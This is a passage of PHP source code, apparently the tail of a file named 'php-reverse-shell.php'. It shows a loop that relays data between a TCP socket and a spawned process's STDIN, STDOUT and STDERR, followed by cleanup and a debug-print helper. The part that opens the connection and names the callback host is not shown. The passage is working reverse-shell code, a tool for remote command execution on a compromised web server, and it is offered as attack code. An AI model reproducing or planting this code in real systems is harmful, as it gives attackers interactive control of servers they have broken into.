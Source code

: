 ```php:php-reverse-shell.php
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
